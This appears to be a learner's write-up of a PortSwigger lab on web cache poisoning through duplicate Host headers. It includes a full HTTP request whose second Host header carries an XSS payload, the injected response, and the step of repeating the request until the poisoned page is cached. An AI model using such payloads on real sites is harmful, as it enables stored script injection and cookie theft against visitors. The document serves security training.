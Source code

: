 # Lab: Web cache poisoning via ambiguous requests

This lab is vulnerable to web cache poisoning due to discrepancies in how the cache and the back-end application handle ambiguous requests. An unsuspecting user regularly visits the site's home page.

To solve the lab, poison the cache so the home page executes `alert(document.cookie)` in the victim's browser.

Analysis :

- Manipulating host header direct returns erro 50X -> bad gateway
- but when we add another host header and leaving the original one alone -> we can actually manipulate the html content
  - request

    ```Text
    GET / HTTP/1.1
    Host: 0ae900a203879288839de82700aa00a9.h1-web-security-academy.net
    Host: dedoxd2.test.com.js"></script><img src=x onerror=alert(document.cookie) /><script type="text/javascript" src="//
    ```

  - response

    ```Text
            <script type="text/javascript" src="//dedoxd2.test.com.js"></script><img src=x onerror=alert(document.cookie) /><script type="text/javascript" src="///resources/js/tracking.js">
    ```

  - The next step is to send this malicious request to the vulnerable server multible times to make it cache it -> stored xss

- My way to solve the lab did the target but portswiger academy had a better one (stealthy one)
  - while propingthe server i noticed that my payload in the second host header  gets injected directly in the `<script>` tag , my way of thinking told me that close the tags and inject ur payload
  - but the solution provided from portswigger was about importing this script from domain that the attacker domain
